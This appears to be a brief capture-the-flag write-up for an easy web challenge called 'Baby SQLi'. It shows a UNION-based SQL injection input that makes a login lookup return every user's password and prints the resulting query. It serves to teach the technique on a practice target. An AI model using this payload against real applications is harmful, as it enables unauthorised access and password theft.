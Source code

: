 # Web: Baby SQLi
Difficulty: Easy

This challenge is identical to the regular SQLi challenge, except you are given the table and column names from the start. 

In order to leak the password, we can perform a simple SQL injection attack.

https://portswigger.net/web-security/sql-injection

Using the information given from the description, we can guess that the SQL command looks something like:

```
SELECT username FROM users WHERE email = '____________'
```

If we input an email of:
```
' OR 1=1 UNION select password from users--
```

Then the SQL command looks like:
```
SELECT username FROM users WHERE email = '' OR 1=1 UNION select password from users--

```

Which matches every user and gets you the password, attached onto the original query. 

